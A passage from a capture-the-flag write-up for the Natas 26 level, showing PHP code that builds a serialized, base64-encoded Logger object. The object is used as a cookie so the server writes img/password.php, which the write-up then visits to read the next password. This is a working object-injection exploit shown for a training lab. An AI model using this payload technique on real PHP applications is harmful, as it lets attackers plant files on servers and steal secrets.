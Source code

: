 ```php
        $this->logFile = "img/password.php";
    }
}
$object = new Logger("Security Times");
echo "Serialized Object : ".serialize($object)."<pre>\n\n</pre>Base64 encoded serialized object : ".urlencode(base64_encode(serialize($object)));
?>
```
The above codes creates an object of class `”Logger“`. Creation of an object sends a call to `__construct()` function which executes our command and stores the result in `img/password.php` file.
Now what we do to get the appropriate cookie is to make a php file with above conde in it, run -
```bash
php natas26_phpcode.php
```
And we get the serialized object + basee64 encoded version too, which is inputted as drawing cookie and refreshed. Now traverse to `/img/password.php` and you get your password for the next level.

